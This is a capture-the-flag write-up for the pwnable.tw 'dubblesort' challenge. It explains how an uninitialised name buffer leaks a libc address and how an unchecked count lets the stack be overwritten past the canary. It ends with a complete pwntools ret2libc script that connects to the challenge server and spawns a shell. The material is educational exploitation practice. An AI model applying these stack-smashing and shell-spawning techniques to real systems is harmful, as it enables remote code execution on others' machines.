





# Dubblesort

> Sort the memory!
>  
> nc chall.pwnable.tw 10101


We are given 2 files, `dubblesort`, and `libc_32.so.6`. When we are given a libc file, this obviously involves ret-2-libc. Before we disassemble `dubblesort`, let's see what kind of file it is. It is stripped, has NX and PIE enabled, and has a stack canary.
```
dubblesort: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=12a217baf7cbdf2bb5c344ff14adcf7703672fb1, stripped
```
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY		Fortified 	Fortifiable  	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   Yes		1		2		dubblesort
```

This means that if our exploit involves smashing the stack, we must somehow get the value of the stack canary. NX means that the stack is not executable, thus we can only use ROPing or Ret2LibC. Now that we have a rough idea of potential exploits, let's see which relevant vulnerabilities are present in `doublesort`.

### What dubblesort does

`dubblesort` first asks for our name, then asks for the number of numbers we want to sort. After providing it with *all* the numbers we want to sort, it sorts them and prints them in ascending order. 

Now that we know what it does, let's see *how* it does it. 

First, this is the part of the assembly that reads and prints the user's name. The variable name, `my_name`, is arbitrarily given so its easy to keep track of the variable.
  


When I tried out the program, I noticed that there were a couple of times where some other symbols apart from the name gets printed out too. Those are garbage values. It tells us that the variable `my_name` was not initialized before usage. Perhaps there might be some useful leftover values from previous functions that we could use. I'm just guessing. (Actually, there actually is a key value inside that we need to use. I'll explain it later.)
  


Next, the program asks for the number of numbers we want to sort. The assembly below shows how it does it. Take note that the program does not sanitise input at all. It does not restrict the size of the number we give it. The variable `int_array_ptr` is essentially a pointer variable for an array of integers. 
  



Then, the program asks for the value of each number we want to sort. With the lack of input sanitation identified above, we can essentially write into any memory address on the stack that comes after `int_array_ptr`. This are things like the stack canary and return address from `<main>`. Afterwards, a sorting function is called to sort the values, so although we can write into memory we are not supposed to, the values could be all jumbled up if we do not choose them correctly.
  



After the sorting, the result is printed out. I arbitrarily named the sorting function `processing`. The screenshot belows shows an overview of the input, sorting and printing of numbers.
  



Let's take a look at the stack frame of the function `<main>`. (The ebx, esi and edi values were pushed to the stack at the beginning of `<main>`.)
```
---------------------------------
| how_many_numbers_I_wanna_sort	| esp + 0x18
---------------------------------
| int_array_ptr			| esp + 0x1c
|		.		|
|		.		|
|		.		|
---------------------------------
| my_name			| esp + 0x3c
|		.		|
|		.		|
|		.		|
|		.		|
|		.		|
|		.		|
---------------------------------
| stack canary			| esp + 0x7c
---------------------------------
| saved ebx			| esp + 0x80
---------------------------------
| saved esi			| esp + 0x88
---------------------------------
| saved edi			| esp + 0x8c
---------------------------------
| <main> return addr		| esp + 0x90
---------------------------------
```


With the correct offset value, we can make `int_array_ptr` point to any memory in the stack frame. For instance, we can leak the value of the stack canary with the offset of 25. The `stack canary` is located 60 characters  (ie 24 DWORDS) away from `int_array_ptr`. In other words, it's the 25th DWORD from `int_array_ptr`. Let's try to see if we can print the stack canary's value. First, let's see its *real* value. It is `0x05887500`. The 25th value printed by the program, `92828928`, is the very same value.
```
Breakpoint 8, 0x565559e0 in main ()
(gdb) p/x $eax
$1 = 0x5887500
[...]
(gdb) x/x $esp+0x7c
0xffffce8c:	0x05887500
```
```
(gdb) c
Continuing.
What your name :sol
Hello sol
0���/,How many numbers do you what to sort :25
Enter the 0 number : 0
Enter the 1 number : 0
[...]
Enter the 23 number : 0
Enter the 24 number : f
Processing......
Result :
0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 92828928 [Inferior 1 (process 27721) exited normally]
```

Now that we have a way to get the stack canary's value, we need keep it in its current position so we can overwrite `<main>`'s return address. This means that the address of whatever we want to return to from `<main>` better be greater than the stack canary's value. We'll cross the bridge when we come to it. First, let's find the addresses of our string `"/bin/sh"` and function `<system>`. Finding the offset of `"/bin/sh"` and `<system>` is easy with `pwntools`.
```
from pwn import *
elf = ELF('libc_32.so.6')
binsh_offset = next(elf.search('/bin/sh'))
system_offset = elf.symbols['system']
```
The difficult part is finding its *real* address in runtime. Since the program has PIE enabled, we will not know which part of the virtual memory the shared libc library will be loaded into. That means we have to leak an address from the program whose offset we know. Then, we can get a base address. Remember I mentioned that there is a key value in the variable `my_name` that we need to use? Turns out, its `0xf7fd0000`, and its the address from the libc library. `info proc mappings` show that the offset of said address is `0x1b0000` from the base address of the libc library, `0xf7e20000`. (I have no idea why it prints the offset as `0x1af000`, but it's actually `0x1b0000`).
```
(gdb) b *0x56555a1d
Breakpoint 2 at 0x56555a1d
(gdb) c
Continuing.
What your name :aaaabbbb

Breakpoint 2, 0x56555a1d in main ()
(gdb) x/7wx 0xffffce2c
0xffffce2c:	0x61616161	0x62626262	0x0000000a	0x0000009e
0xffffce3c:	0x00000016	0x00008000	0xf7fd0000
[...]
```
```
(gdb) info proc mappings
process 551
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	0x56555000 0x56556000     0x1000        0x0 /home/solomonbstoner/Documents/solomonbston3r-ctf-diary/In Progress/dubblesort
	0x56556000 0x56557000     0x1000        0x0 /home/solomonbstoner/Documents/solomonbston3r-ctf-diary/In Progress/dubblesort
	0x56557000 0x56558000     0x1000     0x1000 /home/solomonbstoner/Documents/solomonbston3r-ctf-diary/In Progress/dubblesort
	0xf7e1f000 0xf7e20000     0x1000        0x0 
	0xf7e20000 0xf7fcd000   0x1ad000        0x0 /home/solomonbstoner/Documents/solomonbston3r-ctf-diary/In Progress/libc_32.so.6
	0xf7fcd000 0xf7fce000     0x1000   0x1ad000 /home/solomonbstoner/Documents/solomonbston3r-ctf-diary/In Progress/libc_32.so.6
	0xf7fce000 0xf7fd0000     0x2000   0x1ad000 /home/solomonbstoner/Documents/solomonbston3r-ctf-diary/In Progress/libc_32.so.6
	0xf7fd0000 0xf7fd1000     0x1000   0x1af000 /home/solomonbstoner/Documents/solomonbston3r-ctf-diary/In Progress/libc_32.so.6
	0xf7fd1000 0xf7fd5000     0x4000        0x0 
	0xf7fd5000 0xf7fd8000     0x3000        0x0 [vvar]
	0xf7fd8000 0xf7fd9000     0x1000        0x0 [vdso]
	0xf7fd9000 0xf7ffc000    0x23000        0x0 /lib/i386-linux-gnu/ld-2.23.so
	0xf7ffc000 0xf7ffd000     0x1000    0x22000 /lib/i386-linux-gnu/ld-2.23.so
	0xf7ffd000 0xf7ffe000     0x1000    0x23000 /lib/i386-linux-gnu/ld-2.23.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) 
```

To leak said libc address, our name has to be 24 characters long (excluding the newline character). This is so that `printf` will print out the whole thing as a string. This is the part of the python script that extracts the leaked address. You might wonder why it is necessary to replace the `'\n'` with `\x00`. It is because when our name is 24 characters long, the 25th character is `'\n'` when we enter our name in. That overwrites the libc address from `0xf7fd0000` to `0xf7fd000a`. When we extract the leaked address from the output, we have to make sure to convert it back to `0xf7fd0000`.
```
p = process('./dubblesort', env={'LD_PRELOAD':'./libc_32.so.6'})
[...]
p.recvuntil('What your name :')

p.sendline(MY_NAME)

p.recvuntil("\n")
leaked_addr = '\x00' + p.recv(3) 
alt_addr = leaked_addr[1:] + p.recv(1)
```

With the base address, it is *easy* to find the real address of `'/bin/sh'` and `<system>`. We will overwrite the return address of `<main>` with the real address of `<system>`. The real address of `"/bin/sh"` comes 2 DWORDS after that.

By the way, you run the exploit script below, you will notice that the real addresses of `'/bin/sh'` and `<system>` are greater than the stack canary's value. By overwriting all the values after the stack canary with these real addresses, and those before with zeros, we are able to ensure that the stack canary will not be triggered. The real address of  `'/bin/sh'` is greater than `<system>`, so there won't be a problem either when we return to `system('/bin/sh')` from `<main>`.
```
---------------------------------
| system addr (main ret addr)	| esp + 0x90
---------------------------------
| system ret addr		| esp + 0x98
---------------------------------
| '/bin/sh' addr		| esp + 0x9c
---------------------------------
```
### The entire exploit script

```
from pwn import *

MY_NAME = "AAAABBBBCCCCDDDDEEEEFFFF"
HOW_MANY_NUM_TO_SORT = 35

elf = ELF('libc_32.so.6')

binsh_offset = next(elf.search('/bin/sh'))
system_offset = elf.symbols['system']


print "/bin/sh offset: " + hex(binsh_offset)
print "system offset: " + hex(system_offset)

#p = process('./dubblesort', env={'LD_PRELOAD':'./libc_32.so.6'})	# without LD_PRELOAD, the library won't be loaded into the executable, and the exploit won't work locally.
p = remote("chall.pwnable.tw", 10101)

p.recvuntil('What your name :')

p.sendline(MY_NAME)

p.recvuntil("\n")
leaked_addr = '\x00' + p.recv(3) 
alt_addr = leaked_addr[1:] + p.recv(1)

leaked_addr = u32(leaked_addr)
alt_addr = u32(alt_addr)
alt_addr = (alt_addr << 8) & 0xffffffff


leaked_addr_offset_from_base_addr = 0x1b0000
base_addr = leaked_addr - leaked_addr_offset_from_base_addr
print "Base address: " + hex(base_addr)
print "Leaked: " + hex(leaked_addr)
print "Alt: " + hex(alt_addr)


binsh_addr = binsh_offset + base_addr
system_addr = system_offset + base_addr

print "/bin/sh addr: " + hex(binsh_addr) + " (Int: " + str(binsh_addr) + " )"
print "system addr: " + hex(system_addr) + " (Int: " + str(system_addr) + " )"


p.recvuntil('How many numbers do you what to sort :')


p.sendline('' + str(HOW_MANY_NUM_TO_SORT))


for i in range(HOW_MANY_NUM_TO_SORT):
	p.recvuntil('number : ')
	if i == 24:	#Reading the stack canary's value
		p.sendline('+')
	elif 25 <= i <= 32:
		p.sendline(str(system_addr))	# Overwriting the pushed ebx, esi, and edi values with system_addr keeps the stack canary's value unchanged.
	elif 33 <= i <= 34:
		p.sendline(str(binsh_addr))	# Overwriting <system>'s return address with binsh_addr keeps the stack canary's value unchanged..
	else:
		p.sendline('0')


p.interactive()
```


